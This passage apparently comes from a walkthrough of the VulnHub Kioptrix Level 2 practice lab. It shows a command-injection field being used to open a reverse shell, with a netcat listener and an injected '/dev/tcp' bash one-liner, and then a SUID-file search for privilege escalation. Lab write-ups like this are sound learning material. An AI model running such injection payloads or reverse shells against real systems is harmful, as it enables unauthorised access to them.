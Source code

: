 The input field allows to run any command on the target. We can use this input field to set up a reverse shell. 

[Online - Reverse Shell Generator](https://www.revshells.com/)

Using Netcat setup a Listener and pass a reverse shell to the input field.

```bash
# Netcat Listener
nc -nvlp 9000

127.0.0.1;/bin/bash -i >& /dev/tcp/10.0.2.15/9000 0>&1
```

![Web Application|560](images/vulnhub-kioptrix-lvl2/webapp-7.png)

![Netcat|580](images/vulnhub-kioptrix-lvl2/netcat.png)

This granted me access to the system. Next need to gain `root` access. 

#### Gaining Root Access

I used the `find` command to look for files having the SUID bit set but got no results.

```bash
# Find files with SUID set and owned by root user
find / -type f -user root -perm -4000 -exec ls -l {} + 2> /dev/null
```

![Netcat|560](images/vulnhub-kioptrix-lvl2/netcat-2.png)
